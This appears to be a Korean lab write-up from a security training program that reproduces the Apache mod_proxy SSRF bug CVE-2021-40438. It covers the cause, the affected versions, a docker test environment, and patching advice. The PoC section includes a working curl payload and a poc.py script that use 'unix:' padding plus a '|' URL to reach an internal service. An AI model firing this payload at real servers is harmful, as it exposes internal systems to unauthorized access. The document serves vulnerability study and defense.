

# Apache mod_proxy SSRF (CVE-2021-40438)

- WHS 4기 16반 허준하(7343)

## 1. 취약점 요약

- **mod_proxy**가 요청 URI의 UDS(Unix Dmain Socket) 문법을 파싱하는 과정에서 특정 조건이 되면 초기화 되지 않은 값을 백엔드의 목적지로 잘못 사용하는 버그이다.
- 공격자가 | 뒤에 원하는 URL을 넣으면, 관리자가 설정한 백엔드가 아닌 그 URL로 요청이 전달된다.
- **BOF와는 다른 취약점** 메모리를 덮어써서 실행 흐름을 바꾸는게 아니라, 초기화 누락으로 인한 잘못된 값을 재사용하는 과정에서 생기는 버그이다.
- 임의 코드 실행이 아니라 **요청이 어디로 보낼지만 조작 가능**하기 때문에 RCE가 아니라 SSRF로 분류된다.

## 2. 환경 구성

### 디렉토리 구조



### 서비스 웹 사이트 구성

- vuln-apache : 외부 노출 프록시 (취약 버전 2.4.48), 8081포트 사용
- internal-service : 내부 전용 서버 (SSRF의 타겟지점), 9090포트 사용

## 3. 취약 조건

- Apache HTTP Server 2.4.48 이하 버전
- mod_proxy 모듈이 활성화 되어 있어야 한다.
- 요청 URI에 unix: 문자열 + 7701자 이상의 패딩 + | + URL 형태가 포함되어있어야 한다.

## 4. 재현 절차

1. ```cd ~/cve-2021-40438``` 해당 폴더로 이동한다.
2. ```docker compose up -d``` 를 실행하여 테스트 환경을 실행한다.
3. **선택** ```curl http://your-ip:8081/app/``` 를 통해"It works!" 가 출력되는지 확인한다.
4. **선택** ```curl http://your-ip:9090/``` 를 통해 "SECRET INTERNAL DATA - SSRF SUCCESS" 가 출력되는지 확인한다.
5. ```docker exec vuln-apache apachectl -k restart && sleep 3``` 를 실행한다. (Apache 워커의 UDS 캐싱 이슈에 따라 Apache를 재시작해야 SSRF가 정상 작동합니다.)
6. poc.py 파일을 실행하여 페이로드를 주입한다.

## 5. PoC 코드

```bash
PAYLOAD=$(python3 -c 'print("A"*7701)')
curl -s "http://localhost:8081/app/?unix:${PAYLOAD}|http://internal-service:80/"
```

또는 poc.py 실행

```bash
python3 poc.py
```

**poc.py**

```python
#!/usr/bin/env python3
import http.client

payload = "A" * 7701
path = f"/app/?unix:{payload}|http://internal-service:80/"

conn = http.client.HTTPConnection("localhost", 8081)
conn.request("GET", path)
response = conn.getresponse()
print(response.read().decode('utf-8'))
conn.close()
```

## 6. 실행 결과


## 7. 대응 방안

- Apache HTTP Server 2.4.49 이상 버전을 이용한다.
- 만약 버전 업데이트가 힘들다면, 사용하지 않는 mod_proxy 기능을 끄거나 사용을 제한한다.